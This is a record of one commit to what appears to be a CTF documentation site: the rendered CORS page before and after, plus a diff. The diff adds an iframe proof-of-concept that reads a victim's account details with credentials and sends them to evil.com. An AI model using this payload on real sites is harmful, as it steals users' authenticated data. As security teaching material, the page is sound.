

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/web/clientside/05-cors.md, in a window 1280 px wide and 900 px high, scrolled down 792 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1642 px from its top, so only the background shows below that.

Commit message:
add websocket, serialization

````diff
--- a/docs/web/clientside/05-cors.md
+++ b/docs/web/clientside/05-cors.md
@@ -35,6 +35,19 @@ fetch('https://api.cors-null-vulnerable.com/sensitiveContent', {
 "></iframe>
 ```
 
+```html
+<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
+    var req = new XMLHttpRequest();
+    req.onload = reqListener;
+    req.open('get','https://example.com/accountDetails',true);
+    req.withCredentials = true;
+    req.send();
+    function reqListener() {
+        location='https://evil.com/log?key='+encodeURIComponent(this.responseText);
+    };
+</script>"></iframe>
+```
+
 HTTP Request headers :
 
 ```
````
Also changed, not shown: docs/web/deserialization.md (added, +30 -0 lines), docs/web/host-header-attack.md (+1 -1 lines), docs/web/websocket.md (added, +27 -0 lines).
